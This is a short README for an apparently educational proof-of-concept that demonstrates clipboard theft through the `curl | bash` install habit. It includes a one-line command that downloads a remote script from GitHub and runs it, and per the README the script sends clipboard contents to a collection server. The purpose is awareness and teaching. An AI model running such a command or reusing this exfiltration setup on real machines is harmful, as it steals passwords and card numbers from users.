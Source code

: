 # Watch your clipboard


Do you put sensitive data in your clipboard? Like bank passwords or
credit card numbers?

Do you use `curl | bash` pattern to install things on your system?


## Install (on Linux)

Just do all the things from attacker list, and then from yours.

### What would attacker do before

1. `git clone` this repo
2. in repo directory run
   ```
   bundle install
   ```
3. Start `./server`


### What would you do

Just the usual:
```
curl https://raw.githubusercontent.com/wrzasa/watch-your-clipboard/master/run-me.sh | bash`
```

## Watch your clipboard

After you installed and run this use your computer as usually. Copy,
paste, whatever. After some time use

```
./get-clipboards.rb
```
and watch what was sent from your clipboard to the server.

This time it was sent to your own server. Because it's a free lesson.
And you have all the code to see how simple it was. Learn.

## Bottom line

Well... more bla bla here then the actual code in the files... but doing
the proof-of-concept was actually interesting.

